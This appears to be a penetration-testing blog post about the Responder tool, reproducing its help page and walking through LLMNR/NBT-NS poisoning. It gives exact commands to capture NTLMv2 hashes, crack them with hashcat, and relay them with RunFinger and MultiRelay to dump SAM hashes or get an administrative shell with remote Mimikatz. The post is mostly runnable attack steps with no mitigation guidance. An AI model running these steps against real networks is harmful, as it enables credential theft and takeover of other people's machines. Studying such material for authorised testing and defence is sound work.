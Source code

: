 ```yaml
---
title: Responder
categories: [Ethical Hacking Tools,Credential Access]
tags: [responder, credential access (TA0006), llmnr, nbt-ns, mdns, aitm, mitm, hashcat, ntlmv2]
comments: true
---
```


## Overview

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication.

Responder comes packaged with Kali Linux by default. [^1]. Additionally, Inveigh (a PowerShell version of Responder) is baked into [PowerShell-Empire](https://darkcybe.github.io/posts/PowerShell-Empire/#credential-access-modules).

| Tool Name | Version | MITRE ATT&CK Tactic | MITRE ATT&CK Technique |
| --------- | ------- | ------------------- | ---------------------- |
| [Responder.py](https://github.com/lgandx/Responder) | v3.1.3.0 | [Credential Access](https://attack.mitre.org/tactics/TA0006/) | [Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557/) |

## Responder Help Page

```bash
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

Usage: responder -I eth0 -w -d
or:
responder -I eth0 -wd

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -6 2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed, --externalip6=2002:c0a8:f7:1:3ba8:aceb:b1a9:81ed
                        Poison all requests with another IPv6 address than
                        Responder's one.
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -d, --DHCP            Enable answers for DHCP broadcast requests. This
                        option will inject a WPAD server in the DHCP response.
                        Default: False
  -D, --DHCP-DNS        This option will inject a DNS server in the DHCP
                        response, otherwise a WPAD server will be added.
                        Default: False
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  --disable-ess         Force ESS downgrade. Default: False
  -v, --verbose         Increase verbosity.
```

{: .nolineno }

## Instructions

### Using Responder to Perform LLMNR Poisoning

Execute the below command on the attacker machine. Ensure that the `-I` switch is set to interface that is on the same network as the target.

```bash
# Running the listener will wait for a host to make a request
sudo responder -I ens33 -wd
```

{: .nolineno }

Once a set of NTLMv2 credentials have been collection, the password can be attempted to be cracked.

#### Cracking NTLMv2 Credentials with HashCat

With the previously obtained NTLMv2 credential hash collected and saved to a text file. It can be parsed through a credential cracking utility such as hashcat.

```bash
hashcat -m 5600 -a 0 /PATH/TO/DUMP.txt /usr/share/wordlists/rockyou.txt 
```

{: .nolineno }

### Using Responder-Finger and Responder-MultiRelay

Responder comes packaged with additional tools can be used together with Responder to perform other tasks, such as relaying NTLMv2 credentials to gain authenticated access via SMB without the requirement to crack a collected NTLMv2 password hash. The below example shows how to identify systems that don't require SMB signing (a requirement for this method to work) using `Responder-Finger` and setup the `Responder-MultRelay` to gain authenticated access to another host. Local Administrative privileges is however a requirement for the process to work.

This will require three hosts; the attacker, the requesting LLMNR victim, and the target.

1. Configure the Responder configuration file located at `/etc/Responder/Responder.conf` (On Kali Linux) to disable SMB and HTTP server replies.

    ```conf
    SMB = Off
    HTTP = Off
    ```

2. Start Responder to listen for LLMNR requests. Ensure that the `-I` switch is set to interface that is on the same network as the target.

    ```bash
    sudo responder -I ens33 -wd
    ```

    {: .nolineno }

3. Identify hosts on the target network that have SMB signing disabled, the `-i` switch requires the subnet to search. Once the results are returned, identify any hosts that return `SMB signing: False`. If none are returned, this method will not work and NTLMv2 credentials will need to be cracked instead.

    ```bash
    sudo responder-RunFinger.py -i 10.10.10.1/24
    ```

    {: .nolineno }

4. Start the MultiRelay to relay the NTLMv2 credentials to any target host identified in step 3. In this example, `10.10.10.10` was identified to have SMB signing disabled and is therefore used as the target `-t`. The `-d` switch will instruct the MultiRelay tool to dump the local password hashes. The `-d` switch can be omitted which will instead return an administrative shell to the target machine.

    ```bash
    sudo responder-MultiRelay.py -t 10.10.10.10 -u ALL -d
    ```

    {: .nolineno }

5. If the `-d` switch was omitted in step 4, an interactive shell will be returned allowed the following commands.

   - Dump: Extract the SAM database and print hashes
   - regdump KEY: Dump a HKLM registry key
   - read: Read a file
   - get: Download a file
   - delete: Delete a file
   - Upload: Upload a local file to `\windows\temp\`
   - runas: Run a command as the currently logged on user
   - scan: Performs a scan using SMB for other local targets (use /24 or /26 to limit scope)
   - mimi: Run a remote Mimikatz 64 command
   - mimi32: Run a remote Mimikatz 32 command
   - lcmd: Run a local command

## Sources

[^1]: [Kali - Responder](https://www.kali.org/tools/responder/)

